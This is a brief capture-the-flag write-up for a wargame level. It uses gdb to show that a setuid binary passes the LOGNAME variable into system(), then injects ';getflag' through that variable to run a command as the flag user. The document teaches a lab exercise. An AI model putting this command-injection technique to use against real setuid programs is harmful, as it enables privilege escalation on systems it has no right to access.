 # First Search

```
$ ls -la
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07

$ ./level07
level07

$ gdb level07

(gdb) disas main
0x0804856f <+91>:    movl   $0x8048680,(%esp)
   0x08048576 <+98>:    call   0x8048400 <getenv@plt>
   0x0804857b <+103>:   mov    %eax,0x8(%esp)
   0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:   lea    0x14(%esp),%eax
   0x0804858b <+119>:   mov    %eax,(%esp)
   0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:   mov    0x14(%esp),%eax
   0x08048597 <+131>:   mov    %eax,(%esp)
   0x0804859a <+134>:   call   0x8048410 <system@plt>

(gdb) x/s 0x8048680
0x8048680:       "LOGNAME"
(gdb) x/s 0x8048688
0x8048688:       "/bin/echo %s "
```

we can notice that the code, use getenv on the "LOGNAME" and the other
argument of asprintf is "/bin/echo %s"

```
$ echo $LOGNAME
level07
```

# Solution

we have to modify the value of varenv LOGNAME

```
$ export LOGNAME=';getflag'

$ ./level07
 Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXX